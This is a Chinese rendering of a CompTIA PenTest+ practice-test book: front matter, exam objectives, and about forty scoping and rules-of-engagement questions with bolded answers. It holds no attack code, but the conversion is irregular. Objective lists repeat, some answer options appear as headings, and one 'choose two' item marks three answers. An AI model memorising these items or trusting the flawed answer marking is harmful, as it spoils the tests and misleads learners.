# CompTIA® PenTest+TM 实践指南 考试 PT0-001




*本书献给我的丈夫 William Panek，以及我的女儿们 Alexandria 和 Paige。感谢你们所有的爱与支持。我比任何事物都更爱你们！*

*—CMP*

# 致谢

我要感谢我的丈夫兼挚友 Will，因为没有他，我就不会有今天的成就——谢谢！我也要向我的两个女儿 Alexandria 和 Paige 表达我的爱，她们一直给予我无尽的爱与支持。谢谢你们所有人！

作者要感谢我们 Sybex 团队的每一位成员，特别是我们的开发编辑 Adaobi Obi Tulton，她帮助使这本书达到最佳；还有技术编辑 S. Russell Christy。拥有最优秀的技术大师支持你始终至关重要。我们要感谢制作编辑 Amy Odum 和责任编辑 Kim Wimpsett。

特别感谢我们的采购编辑 Kenyon Brown。最后，我们也要感谢幕后所有帮助使这本书成为可能的人员。感谢大家的辛勤工作和奉献。

# 作者简介


**Crystal Panek** 持有以下认证：MCP、MCP+I、MCSA、MCSA+ Security and Messaging、MCSE-NT (3.51 & 4.0)、MCSE 2000、2003、2012/2012 R2、2016、MCSE+Security and Messaging、MCDBA、MCTS、MCITP。

多年来，她作为合同讲师在 MicroC、Stellacon Corporation 和新罕布什尔大学等机构任教。随后，她成为一家大型 IT 培训公司的副总裁，并在 15 年里开发培训材料和教材，帮助成千上万的学生通过认证考试。目前，她以合同形式为多家大型 IT 培训机构创建教材。

她目前与丈夫和两个女儿居住在新罕布什尔州。业余时间，她喜欢露营、徒步、飞碟射击、高尔夫、保龄球和雪地摩托。

# 技术编辑简介

S. Russell Christy 来自田纳西州孟菲斯，是一名技术培训师，涵盖广泛的产品，专长于计算机维护、网络与安全；Microsoft Office 应用程序；以及网页和印刷设计。20 多年来，他部署了新的台式机和操作系统、服务器、网络硬件和软件，同时解决各种硬件和软件问题。

Christy 先生拥有孟菲斯大学工商管理学士学位。他还获得了行业认证：CompTIA A+、CompTIA Network+、CompTIA Server+、CompTIA Security+、CompTIA CySA+、Cisco CCNA CyberOps、MTA Windows Server 管理基础、网络基础、安全基础和 Windows 操作系统基础，以及 Adobe 认证培训师。

## 简介

《CompTIA PenTest+ 练习测试：PT0-001 考试》是《CompTIA PenTest+ 学习指南：PT0-001 考试》的配套教材。本书将帮助您在参加 PenTest+ 考试前检验自己的知识水平。我们提供了 1,000 多道练习题，涵盖了 CompTIA PenTest+ 认证考试目标中的各项概念。本书将助您备考 CompTIA PenTest+ (PT0-001) 考试。

请将本书作为指南，帮助您确定在参加正式考试前需要重点复习的内容。

在尝试参加 PenTest+ 考试之前，您应该已经是一名从业的安全从业者。CompTIA 建议应试者根据其网络安全职业路径，应具备中级技能水平。您还应熟悉本书涵盖的一些工具和技术。

### CompTIA

CompTIA 是一家非营利性行业协会，提供涵盖信息技术多个领域的认证。认证范围从成为 PC 支持技术人员所需技能的 A+ 考试，到更高级的认证，如 CompTIA 高级安全从业者 (CASP)。随着网络攻击和新型连接设备的日益增多，对熟练网络安全专业人员的需求正在快速增长。CompTIA 网络安全职业路径将帮助 IT 专业人员精通网络安全技能。

CompTIA CySA+ 和 CompTIA PenTest+ 考试被视为更高级的考试，旨在面向拥有实操经验、且同时具备职业路径中前序考试所涵盖知识的专业人士。

CompTIA 认证通过了 ISO 和 ANSI 认可，并被众多行业用作衡量个人技术技能和知识水平的标准。

### 为什么要考取认证？

CompTIA 认证帮助个人在信息技术领域打造卓越的职业生涯，也让公司拥有知识渊博、训练有素的员工。在当今时代，认证在 IT 界被视为至关重要。寻求招聘或晋升的雇主需要确保候选人具备岗位所需的技能，而认证提供了这些技能的证明。

CompTIA PenTest+ 面向从事渗透测试和漏洞管理工作的网络安全专业人员。

以下是一些利用 CompTIA PenTest+ 的职位示例：

*   渗透测试员
*   漏洞测试员
*   安全分析师 (II)
*   漏洞评估分析师
*   网络安全运营

## 应用安全漏洞

### CompTIA PenTest+ 考试

2018 年 7 月 31 日，CompTIA 推出了 PenTest+ 认证。该网络安全认证专为 IT 专业人员设计，旨在验证其识别、利用、报告和管理网络漏洞的能力。

CompTIA PenTest+ 考试是在 Pearson VUE 考试中心进行的唯一一项渗透测试考试，它同时包含基于性能的题目和多项选择题，以确保考生具备在系统上执行任务所需的技能和知识。

PenTest+ 考试的独特之处在于，它要求考生展示其在传统台式机和服务器以及云和移动等新环境中测试设备的实操能力和知识。

通过 PenTest+ 考试后，合格考生将具备定制和执行评估所需的技能，并能高效地报告任何发现。考生还将能够沟通并推荐策略，以改善网络的整体 IT 安全状况。

PenTest+ 考试旨在成为一项面向渗透测试人员的厂商中立认证。它旨在衡量当前的渗透测试、漏洞评估和漏洞管理技能，重点关注网络弹性测试。合格考生将证明其规划和确定评估范围的能力，了解如何处理法律和合规要求，并能使用一系列工具和技术执行漏洞扫描和渗透测试活动，以及分析结果。

本书根据以下考试目标分解：

*   第 1 章：规划与范围界定
*   第 2 章：信息收集与漏洞识别
*   第 3 章：攻击与利用
*   第 4 章：渗透测试工具
*   第 5 章：报告与沟通

这五个领域包含一系列子主题，从确定渗透测试范围到执行主机枚举和利用。

CompTIA 建议考生在参加此考试前拥有三到四年的信息安全相关经验。虽然没有强制先决条件，但 CompTIA 建议考生已通过 Security+ 考试或具备同等经验。考试费用为 349 美元。

关于 PenTest+ 考试及如何参加考试的更多信息，请访问：<https://certification.comptia.org/certifications/pentest>。

### 如何成为 CompTIA PenTest+ 认证专业人员？

准备好参加考试后，您可以访问 CompTIA 网站购买考试券：

<https://store.comptia.org/p/CompTIAPENTEST>

获得券号后，您需要联系 Pearson VUE。CompTIA 与 Pearson VUE 合作，后者在全球设有考试中心。要查找离您最近的考试中心并预约考试，请访问：<https://home.pearsonvue.com/comptia>。

Pearson VUE 要求考生登录其系统以预约考试。如果您已有账户，直接登录即可。如果没有账户，则需要创建一个。

考试当天，请务必携带两种形式的身份证件，并务必比考试开始时间早到，以留出足够的签到时间。请记住，您不能携带任何笔记、电子设备或其他材料进入考场。请将它们留在车内，或由考试中心提供安全的地方存放您的物品。

### 考试结束后

完成考试后，您将立即知晓分数。考试中心会将成绩单副本交给您，并安排您离开考试中心。您应妥善保管成绩单副本，以及考试注册记录和您注册考试时使用的电子邮件地址。

### 维护您的认证

CompTIA 认证必须定期更新。要更新您的认证，您必须通过最新版本的考试、获得合格的更高级别 CompTIA 或行业认证，或完成足够的继续教育活动以赚取足够的继续教育学分 (CEU) 来更新。在本书撰写时，如果使用 CEU 更新 PenTest+ 认证，需要 60 个 CEU。

CompTIA 在以下网址提供有关更新的更多信息：

<https://certification.comptia.org/continuing-education/how-to-renew>

当您报名更新认证时，将被要求同意继续教育 (CE) 计划的道德准则，支付更新费用，并提交您所选更新方式所需的材料。

### 使用本书进行练习

本书分为七章。

*   第 1 章：规划与范围界定
*   第 2 章：信息收集与漏洞识别
*   第 3 章：攻击与利用
*   第 4 章：渗透测试工具
*   第 5 章：报告与沟通
*   第 6 章：模拟考试 1
*   第 7 章：模拟考试 2

每章涵盖一个考试目标，包含各种题目，帮助您测试对 PenTest+ 考试目标的理解。最后两章是模拟考试，可作为限时练习，帮助确定您是否准备好参加 PenTest+ 考试。

我们建议参加模拟考试，以帮助确定您可能需要花费更多时间学习的领域。

在练习本书中的某些题目时，您可能会遇到不熟悉的工具和技术。如果您发现有困难，我们建议花一些额外时间阅读相关书籍和材料，深入钻研感兴趣的主题。这将有助于填补知识空白，让您更充分地准备考试。

### CompTIA PenTest+ 认证考试目标

本书旨在涵盖 PenTest+ 考试目标。下表列出了该考试衡量的领域及其所占比例。

| 考试目标 | 考试占比 |
| :--- | :--- |
| 1.0 规划与范围界定 | 15% |
| 2.0 信息收集与漏洞识别 | 22% |
| 3.0 攻击与利用 | 30% |
| 4.0 渗透测试工具 | 17% |
| 5.0 报告与沟通 | 16% |
| **总计** | **100%** |

### CompTIA PenTest+ 考试 PT0-001 目标映射

以下 CompTIA PenTest+ 认证考试目标映射将帮助您找到书中涵盖各目标的位置。

#### 目标映射

| 目标 | 章节 |
| :--- | :--- |
| **1.0 规划与范围界定** | |
| 1.1 解释为约定进行规划的重要性。 | 第 1 章 |
| 了解目标受众、交战规则、通信升级路径、资源与需求、发现的机密性、已知与未知、预算、影响分析与补救时间表、免责声明、时间点评估、全面性、技术约束、支持资源、Web 服务描述语言/Web 应用程序描述语言 (WSDL/WADL)、简单对象访问协议 (SOAP) 项目文件、软件开发工具包 (SDK) 文档、Swagger 文档、XML 架构文档 (XSD)、示例应用程序请求、架构图 | |
| 1.2 解释关键法律概念。 | 第 1 章 |

## 1.0 规划与范围界定

### 1.1 解释针对约定工作进行规划的重要性。

- 合同
- 工作说明书 (SOW)
- 总服务协议 (MSA)
- 保密协议 (NDA)
- 环境差异
- 出口限制
- 地方和国家政府限制
- 公司政策
- 书面授权
- 从适当的签署授权方处获取签名
- 必要时获取第三方提供商授权

### 1.2 解释关键法律概念。

- 评估类型
- 基于目标/基于目的
- 基于合规
- 红队
- 特殊范围考量
- 并购前
- 供应链
- 目标选择
- 目标
- 内部
- 现场 vs. 远程
- 外部
- 第一方托管 vs. 第三方托管
- 物理用户
- 服务集标识符 (SSID)
- 应用程序
- 考量因素
- 白名单 vs. 黑名单
- 安全例外
- 入侵防护系统/Web 应用防火墙 (IPS/WAF) 白名单
- 网络准入控制 (NAC)
- 证书绑定
- 公司政策
- 策略
- 黑盒 vs. 白盒 vs. 灰盒
- 风险接受
- 影响容忍度
- 进度安排
- 范围蔓延
- 威胁行为体
- 对手层级
- 高级持续性威胁 (APT)
- 脚本小子
- 黑客活动家
- 内部威胁
- 能力
- 意图
- 威胁模型

### 1.3 解释正确界定约定工作范围的重要性。

第 1 章

### 1.4 解释基于合规的评估的关键方面。

- 基于合规的评估
- 局限性和警示
- 完成评估的规则
- 密码策略
- 数据隔离
- 密钥管理
- 局限性
- 有限的网络访问
- 有限的存储访问
- 明确定义的目标
- 基于法规

第 1 章

## 2.0 信息收集与漏洞识别

### 2.1 给定场景，使用适当技术进行信息收集。

- 扫描
- 枚举
- 主机
- 网络
- 域
- 用户
- 组
- 网络共享
- 网页
- 应用程序
- 服务
- 令牌
- 社交网络站点
- 数据包构造
- 数据包检查
- 指纹识别
- 密码学
- 证书检查
- 窃听
- 射频 (RF) 通信监控
- 嗅探
- 有线
- 无线
- 反编译
- 调试
- 开源情报收集
- 研究来源
- 计算机应急响应小组 (CERT)
- 美国国家标准与技术研究院 (NIST)
- 日本计算机应急响应小组 (JPCERT)
- 常见攻击模式枚举与分类 (CAPEC)
- 完全披露
- 常见漏洞披露 (CVE)
- 常见弱点枚举 (CWE)

第 2 章

### 2.2 给定场景，执行漏洞扫描。

- 凭证扫描 vs. 非凭证扫描
- 扫描类型
- 发现扫描
- 完整扫描
- 隐蔽扫描
- 合规扫描
- 容器安全
- 应用程序扫描
- 动态 vs. 静态分析
- 漏洞扫描的考量因素
- 运行扫描的时间
- 使用的协议
- 网络拓扑
- 带宽限制
- 查询限流
- 脆弱系统/非传统资产

第 2 章

### 2.3 给定场景，分析漏洞扫描结果。

- 资产分类
- 裁决
- 误报
- 漏洞优先级排序
- 通用主题
- 漏洞
- 观察结果
- 缺乏最佳实践

第 2 章

### 2.4 解释利用信息为利用阶段做准备的过程。

- 将漏洞映射到潜在漏洞利用代码
- 为渗透测试确定活动优先级
- 描述完成攻击的常用技术
- 交叉编译代码
- 漏洞利用代码修改
- 漏洞利用链
- 概念验证开发 (漏洞利用开发)
- 社会工程学
- 凭证暴力破解
- 字典攻击
- 彩虹表
- 欺骗

第 2 章

### 2.5 解释与专用系统相关的弱点。

- 工业控制系统 (ICS)
- 数据采集与监视控制系统 (SCADA)
- 移动设备
- 物联网 (IoT)
- 嵌入式系统
- 销售终端系统
- 生物识别
- 应用容器
- 实时操作系统 (RTOS)

第 2 章

## 3.0 攻击与漏洞利用

### 3.1 比较和对比社会工程学攻击。

- 钓鱼
- 定向钓鱼
- 短信服务 (SMS) 钓鱼
- 语音钓鱼
- 鲸钓
- 诱导
- 商业电子邮件入侵
- 盘问
- 冒充
- 偷窥
- 通用串行总线 (USB) 密钥投放
- 激励技巧
- 权威
- 稀缺
- 社会认同
- 紧迫感
- 相似性
- 恐惧

第 3 章

### 3.2 给定场景，利用基于网络的漏洞。

- 名称解析漏洞利用
- 网络基本输入/输出系统 (NETBIOS) 名称服务
- 本地链路多播名称解析 (LLMNR)
- 服务器消息块 (SMB) 漏洞利用
- 简单网络管理协议 (SNMP) 漏洞利用
- 简单邮件传输协议 (SMTP) 漏洞利用
- 文件传输协议 (FTP) 漏洞利用
- 域名服务 (DNS) 缓存投毒
- 传递哈希
- 中间人攻击
- 地址解析协议 (ARP) 欺骗
- 重放
- 中继
- 安全套接字层 (SSL) 剥离
- 降级
- 拒绝服务 (DoS)/压力测试
- 网络准入控制 (NAC) 绕过
- 虚拟局域网 (VLAN) 跳跃

第 3 章

### 3.3 给定场景，利用无线和射频漏洞。

- 邪恶双生
- Karma 攻击
- 降级攻击
- 解除认证攻击
- 碎片攻击
- 凭证收集
- Wi-Fi 保护设置 (WPS) 实现弱点
- 蓝牙垃圾信息攻击
- 蓝牙窃取
- 射频识别 (RFID) 克隆
- 干扰
- 重放

第 3 章

### 3.4 给定场景，利用基于应用程序的漏洞。

- 注入
- 结构化查询语言 (SQL)
- 超文本标记语言 (HTML)
- 命令
- 代码
- 认证
- 凭证暴力破解
- 会话劫持
- 重定向
- 默认凭证
- 弱凭证
- Kerberos 漏洞利用
- 授权
- 参数污染
- 不安全的直接对象引用
- 跨站脚本 (XSS)
- 存储型/持久型
- 反射型
- 文档对象模型 (DOM) 型
- 跨站请求伪造 (CSRF/XSRF)
- 点击劫持
- 安全配置错误
- 目录遍历
- Cookie 操纵
- 文件包含
- 本地
- 远程
- 不安全的代码实践
- 源代码中的注释
- 缺乏错误处理
- 过于详细的错误处理
- 硬编码凭证
- 竞争条件
- 未授权的函数使用/未受保护的应用程序编程接口 (API)
- 隐藏元素
- 文档对象模型 (DOM) 中的敏感信息
- 缺乏代码签名

第 3 章

### 3.5 给定场景，利用本地主机漏洞。

- 操作系统 (OS) 漏洞
- Windows
- Mac 操作系统 (OS)
- Linux
- Android
- iPhone 操作系统 (iOS)
- 不安全的服务和协议配置
- 权限提升
- Linux 特有
- 设置用户 ID/设置组 ID (SUID/SGID) 程序
- 不安全的 sudo
- ret2libc
- 粘滞位
- Windows 特有
- cpassword
- 轻量级目录访问协议 (LDAP) 中的明文凭证
- Kerberoasting

第 3 章


- 本地安全机构子系统服务 (`LSASS`) 中的凭证
- 无人值守安装
- 安全账户管理器 (`SAM`) 数据库
- 动态链接库 (`DLL`) 劫持
- 可利用的服务
- 未加引号的服务路径
- 可写服务
- 不安全的文件/文件夹权限
- 键盘记录器
- 计划任务
- 内核漏洞利用
- 默认账户设置
- 沙箱逃逸
- Shell 升级
- 虚拟机 (`VM`)
- 容器
- 物理设备安全
- 冷启动攻击
- 联合测试行动组 (`JTAG`) 调试
- 串行控制台

### 3.6 总结与设施相关的物理安全攻击

- 搭便车/尾随
- 翻越围栏
- 垃圾箱搜寻
- 开锁
- 绕过门锁
- 出口传感器
- 门禁卡克隆

### 3.7 给定场景，执行利用后技术

## 规划和范围界定渗透测试

### Pentest+ 考试涵盖的主题

#### 领域 1：规划和范围界定

##### 1.1 解释规划约定的重要性

- 了解目标受众
- 交战规则
- 沟通升级路径
- 资源和需求
    - 发现的机密性
    - 已知与未知
- 预算
- 影响分析和修复时间线
- 免责声明
    - 时间点评估
    - 全面性
- 技术约束
- 支持资源
    - `WSDL`/`WADL`
    - `SOAP` 项目文件
    - `SDK` 文档
    - `Swagger` 文档
    - `XSD`
    - 示例应用程序请求
    - 架构图

##### 1.2 解释关键法律概念

- 合同
    - `SOW`（工作说明书）
    - `MSA`（主服务协议）
    - `NDA`（保密协议）
- 环境差异
    - 出口限制
    - 地方和国家政府限制
    - 企业政策
- 书面授权
    - 从适当的签署机构获得签名
    - 必要时获得第三方提供商授权

##### 1.3 解释正确界定约定范围的重要性

- 评估类型
    - 基于目标/基于目的
    - 基于合规
    - 红队演练
- 特殊范围考量
    - 合并前
    - 供应链
- 目标选择
    - 目标
        - 内部
            - 现场与非现场
        - 外部
        - 第一方与第三方托管
        - 物理
        - 用户
        - `SSIDs`
        - 应用程序
    - 考量因素
        - 白名单与黑名单
        - 安全例外
            - `IPS`/`WAF` 白名单
            - `NAC`
            - 证书绑定
            - 公司政策
- 策略
    - 黑盒与白盒与灰盒
- 风险接受
- 影响容忍度
- 日程安排
- 范围蔓延
- 威胁行为体
    - 对手层级
        - `APT`
        - 脚本小子
        - 黑客活动家
        - 内部威胁
    - 能力
    - 意图
    - 威胁模型

##### 1.4 解释基于合规性评估的关键方面

- 基于合规的评估、局限性和警示
    - 完成评估的规则
    - 密码策略
    - 数据隔离
    - 密钥管理
    - 局限性
        - 有限的网络访问
        - 有限的存储访问
- 基于法规的明确目标

### 练习题

1. 你被要求为一家在线销售售后摩托车零件的中型组织执行渗透测试。你应该完成的第一项任务是什么？

    1. 调查组织的产品供应。
    2. 确定可用于测试的预算。
    3. 确定测试范围。
    4. **获得执行测试的授权。**

### 渗透测试类型与威胁行为体场景题

#### 2. 顾问受雇对组织进行渗透测试

目标是组织的专有设计文档。目的是绕过安全措施并未经授权访问这些文档。此场景属于哪种评估类型？

1. **Objective-based assessment** (目标导向评估)
2. Goal-based assessment
3. Compliance-based assessment
4. Red team assessment

#### 3. 顾问受雇对医疗行业组织进行渗透测试

目标是面向公众的自助服务网站，用户可查看健康记录。目的是绕过安全措施未经授权访问该信息。此场景属于哪种评估类型？

1. **Objective-based assessment** (目标导向评估)
2. Gray box assessment
3. Compliance-based assessment
4. White box assessment

#### 4. 顾问受雇对医疗行业组织进行渗透测试

目标是面向公众的自助服务网站。渗透测试人员已获得组织底层网络的**完全知识**。此例中进行的是哪种测试？

1. Goal-based assessment
2. Black box assessment
3. Objective-based assessment
4. **White box assessment** (白盒评估)

#### 5. 测试人员拥有目标环境的有限信息但未获完全访问权限

属于哪种渗透测试类型？

1. **Gray box assessment** (灰盒评估)
2. Black box assessment
3. Compliance-based assessment
4. White box assessment

#### 6. 哪种渗透测试最能复现真实攻击者的视角？

1. Gray box assessment
2. **Black box assessment** (黑盒评估)
3. Objective-based assessment
4. White box assessment

#### 7. 顾问受雇对组织 HR 数据库应用进行渗透测试

测试人员获得工位、接入组织网络的计算机和网络图，但**未获得任何认证凭据**。此场景属于哪种测试类型？

1. Compliance-based assessment
2. Black box assessment
3. **Gray box assessment** (灰盒评估)
4. White box assessment

#### 8. 顾问受雇对组织电商网站进行渗透测试

测试人员位于不同城市，将使用多种渗透测试工具分析并攻击该站点。测试人员**没有任何关于该站点的信息，也没有任何认证凭据**。此场景属于哪种测试类型？

1. White box assessment
2. **Black box assessment** (黑盒评估)
3. Objective-based assessment
4. Gray box assessment

#### 9. 顾问受雇对组织内部防火墙进行渗透测试

测试人员获得工位、接入组织网络的计算机、网络图，且**获得了具有相当高访问权限的认证凭据**。此场景属于哪种测试类型？

1. Gray box assessment
2. Black box assessment
3. Goals-based assessment
4. **White box assessment** (白盒评估)

#### 10. 哪种渗透测试能在最短时间内提供最彻底的评估，同时仍能提供真实攻击者视角的近似视图？

1. **Gray box assessment** (灰盒评估)
2. Black box assessment
3. Goals-based assessment
4. White box assessment

#### 11. 攻击者从互联网下载 `Low Orbit Ion Cannon` 并用其对前雇主网站发起拒绝服务攻击

此攻击者属于哪类？

1. **Script kiddie** (脚本小子)
2. Hacktivist
3. Organized crime
4. Nation-state

#### 12. 攻击者针对邻国政府承包商发起攻击

目标是通过承包商访问敌对国家的政府网络基础设施。攻击者本国政府指导并资助该攻击。此威胁行为体属于哪类？

1. Script kiddie
2. Hacktivist
3. Organized crime
4. **Nation-state** (国家资助)

#### 13. 前苏联国家的一群黑客联合发布勒索软件

目标是以加密货币形式从受害者处勒索钱财。此攻击者属于哪类？

1. Malicious insider
2. Hacktivist
3. **Organized crime** (有组织犯罪)
4. Nation-state

#### 14. 热衷维护盐水虾的攻击者攻击并篡改收割盐水虾并将其作为鱼食出售的公司网站

此攻击者属于哪类？

1. Script kiddie
2. **Hacktivist** (黑客活动家)
3. Organized crime
4. Nation-state

#### 15. 员工因负面绩效评估不满，报复性地从 HR 数据库服务器访问机密薪酬信息并匿名发布到 Glassdoor

此攻击者属于哪类？

1. Script kiddie
2. Hacktivist
3. Organized crime
4. **Malicious insider** (恶意内部人员)

#### 16. 哪些攻击者最有可能实施高级持续性威胁 (`APT`)？(选择两项)

1. **Malicious insider** (恶意内部人员)
2. Script kiddie
3. Hacktivist
4. **Organized crime** (有组织犯罪)
5. **Nation-state** (国家资助)

#### 17. 哪些实体最有可能成为高级持续性威胁 (`APT`) 的目标？(选择两项)

1. **A government contractor** (政府承包商)
2. A website offering lessons on search engine optimization (SEO)
3. **A multinational bank** (跨国银行)
4. A dental practice
5. A community college

#### 18. 哪类威胁行为体最可能受政治动机驱使？

1. Malicious insider
2. **Hacktivist** (黑客活动家)
3. Organized crime
4. Script kiddie

#### 19. 哪类威胁行为体最可能受渴望关注的动机驱使？

1. Malicious insider
2. **Script kiddie** (脚本小子)
3. Organized crime
4. Nation-state

#### 20. 哪种渗透测试通常能在最短时间内提供最彻底的评估？

1. Gray box assessment
2. Black box assessment
3. Goals-based assessment
4. **White box assessment** (白盒评估)

#### 21. 你正在进行研究以定义为客户执行的渗透测试范围

研究必须包含哪些信息？(选择两项)

1. **Why is the test being performed?** (测试为何而进行？)
2. When was the last time a test was performed?
3. What were the results of the last test performed?
4. To whom should invoices be sent?
5. **Who is the target audience for the test?** (测试的目标受众是谁？)

#### 22. 你正在为即将进行的渗透测试记录交战规则 (`ROE`)

必须包含哪些要素？(选择两项)

1. **A timeline for the engagement** (约定时间线)
2. **A review of laws that specifically govern the target** (针对目标的特定法律审查)
3. A list of similar organizations that you have assessed in the past
4. A list of the target’s competitors
5. A detailed map of the target’s network

#### 23. 你正在为即将进行的渗透测试记录交战规则 (`ROE`)

应确保包含哪些要素？(选择两项)

1. Detailed billing procedures
2. **A list of out-of-scope systems** (范围外系统列表)
3. **A list of in-scope systems** (范围内系统列表)
4. 一个经批准的流程，用于通知目标的竞争对手有关此次业务约定的事宜
5. 用于解决你与客户之间争议的仲裁程序

#### 24. 你正在为即将到来的渗透测试记录交战规则（`ROE`）。应考虑哪些要素？（选择两项。）

1. 分配给你将用于进行测试的系统的 IP 地址列表
2. **你将如何向目标传达测试结果**
3. 你在测试期间将使用的渗透测试工具列表
4. 你曾为其进行过渗透测试的过往客户的推荐人列表
5. **测试期间目标方不允许的行为列表**

#### 25. 你正在为即将到来的渗透测试定义交战规则（`ROE`）。在此过程中，你定义了不应攻击目标的“禁限时间”，列出了范围内和范围外的系统，以及测试期间收集信息的数据处理要求。你还致电目标站点的一位服务台技术人员，并获得了进行测试的口头许可。你在 `ROE` 文档中记录了该技术人员的姓名和日期。在此场景中，你做错了什么？

1. 出于隐私原因，你不应在 `ROE` 文档中以姓名标识内部技术人员。
2. 包含“禁限时间”会降低测试的准确性。
3. **`ROE` 应包含高级管理层的书面许可。**
4. 所有系统都应是测试的潜在目标。
5. 目标不应知道你在测试期间如何存储收集到的信息。

#### 26. 你正在为即将到来的渗透测试定义交战规则（`ROE`）。这将是一个白盒评估。你指定目标在测试期间不得采用拒绝服务或黑名单机制。你指定目标必须向你提供内部网络访问权限、网络拓扑图和认证凭据。你还指定由 SaaS 服务提供商提供的应用程序在测试期间属于禁限范围。在此场景中，你做错了什么？

1. 目标应被允许使用其选择的任何手段进行防御。
2. 拥有关于内部网络的详细信息会使测试结果无效。
3. **所有网络资源都应接受测试，包括基于云的资源。**
4. 没有错误。`ROE` 已被适当定义。

#### 27. 你正在为即将到来的渗透测试定义交战规则（`ROE`）。这将是一个黑盒评估。客户指定他们不希望在一天中的高峰时段进行测试，因此你在文档中添加了测试将暂停的“超时”时间段。你指定在测试结束并提交最终测试结果之前，你与客户之间不会发生任何沟通。你还指定目标必须向你提供内部网络访问权限、网络拓扑图和认证凭据。在此场景中，你做错了什么？

1. 拥有关于内部网络的详细信息会使测试结果无效。
2. 在高峰时段暂停评估会使测试结果无效。
3. **测试人员与客户之间的沟通应在整个测试过程中定期进行。**
4. 没有错误。`ROE` 已被适当定义。

#### 28. 你拥有一家小型渗透测试咨询公司。你担心客户可能会在渗透测试完成几个月或几年后起诉你，理由是他们的网络被测试时不存在的漏洞利用所攻破。你应该怎么做？

1. 坚持要求客户在测试前签署保密协议（`NDA`）。
2. **在协议中包含一条免责声明，表明测试结果仅在测试执行的那个时间点有效。**
3. 在协议中包含仲裁条款以防止诉讼。
4. 坚持要求客户在测试前签署工作说明书（`SOW`）。

#### 29. 你拥有一家小型渗透测试咨询公司。你担心要求进行黑盒评估的客户可能会在渗透测试完成后起诉你，理由是他们的网络被漏洞利用攻破。你应该怎么做？

1. 坚持要求客户在测试前签署采购订单。
2. 坚持要求客户在测试前签署主服务协议（`MSA`）。
3. **在协议中包含一条免责声明，表明测试方法可能影响测试的全面性。**
4. 拒绝执行黑盒测试。

#### 30. 你正在为即将到来的渗透测试定义交战规则（`ROE`）。你正在处理文档的问题解决部分。此部分应包含哪些要素？（选择两项。）

1. **清晰定义的问题升级程序**
2. 业务约定的时间线


## 3. 范围内的系统、应用程序和服务提供商

## 4. 范围外的系统、应用程序和服务提供商

## 5. 确认渗透测试固有风险

## 31. 你在一家渗透测试咨询公司工作。一个你之前未合作过的组织打电话要求你对其网络执行黑盒评估。你们通过电话就价格和范围达成一致。在纸上快速设计好测试方案后，你于当天下午开始执行。此测试是否得当执行？

1.  是，遵循了适当的渗透测试规划和范围界定程序。

2.  否，在开始评估前应对新客户进行适当审查。

3.  否，应在测试开始前签署主服务协议（`MSA`）。

4.  **否，应记录测试的交战规则（`ROE`）并由双方签署。**

## 32. 你正在与新客户安排渗透测试的条款。以下哪项是获得进行测试的法律许可的适当方式？

1.  通过电子邮件询问高级管理层成员以获取执行测试的许可。

2.  通过电话询问 IT 员工以获取执行测试的许可。

3.  让 IT 员工签署一份授予你执行测试许可的文件。

4.  **让高级管理层成员签署一份授予你执行测试许可的文件。**

## 33. 哪种类型的渗透测试最能模拟外部人员的攻击？

1.  **黑盒**

2.  灰盒

3.  白盒

4.  蓝盒

## 34. 你需要为客户进行一次渗透测试，以最好地评估目标组织对拥有普通员工网络权限的恶意内部人员的脆弱性。你应该执行哪种类型的测试？

1.  **灰盒**

2.  白盒

3.  黑盒

4.  红盒

## 35. 哪种类型的渗透测试执行起来需要最多的时间和金钱？

1.  白盒

2.  灰盒

3.  **黑盒**

4.  绿盒

## 36. 渗透测试人员使用一个典型的员工电子邮件账户向目标组织内的经理和高管发送钓鱼邮件漏洞利用。目的是查看有多少人会上当并点击消息中的链接。此场景中执行的是哪种渗透测试？

1.  黑盒

2.  **灰盒**

3.  白盒

4.  红盒

## 37. 你在一家渗透测试公司工作。客户打电话要求你执行一次详尽的测试，深入探测其基础设施中的漏洞。你应该推荐哪种测试？

1.  灰盒

2.  **白盒**

3.  黑盒

4.  蓝盒

# 渗透测试规划与范围界定练习题

## 38. 确定白盒内部渗透测试的范围内资源

您正在为即将进行的渗透测试定义交战规则（`ROE`）。这将是一次白盒评估，且为内部测试，不允许第三方参与。以下哪些资源可被视为评估的范围内对象？（选择两项。）

1.  Active Directory 用户

2.  组策略中定义的密码策略

3.  Microsoft Office 365 云应用程序

4.  Google Docs

5.  Microsoft Azure Web 服务器

## 39. 渗透测试规划与范围界定过程中最重要的步骤

在渗透测试规划和范围界定过程中，最重要的步骤是什么？

1.  获得客户的书面授权

2.  编写交战规则（`ROE`）

3.  选择测试方法论

4.  定义范围内和范围外的系统、应用程序和服务提供商

## 40. 定义渗透测试具体工作内容的正式文档

以下哪项是正式文档，明确定义了渗透测试期间将执行的具体工作？

1.  主服务协议（`MSA`）

2.  保密协议（`NDA`）

3.  工作说明书（`SOW`）

4.  采购订单（`PO`）

## 41. 违反保密协议的场景

您在一家渗透测试公司工作。您与一位潜在客户共进晚餐。为了展示贵组织在渗透测试方面的技术专长，您列举了其他几位客户的名称，并详细描述了评估中在每个客户处发现的各种问题。您此举违反了以下哪项协议？

1.  工作说明书（`SOW`）

2.  保密协议（`NDA`）

3.  主服务协议（`MSA`）

4.  采购订单（`PO`）

## 42. 单次黑盒测试前需首先签署的文件

您在一家渗透测试公司工作。一位潜在客户来电咨询服务。在了解贵组织的能力后，客户决定安排一次黑盒测试。如果对结果满意，他们可能会考虑未来的测试。您可能会要求客户首先签署以下哪项文件？

1.  采购订单（`PO`）

2.  保密协议（`NDA`）

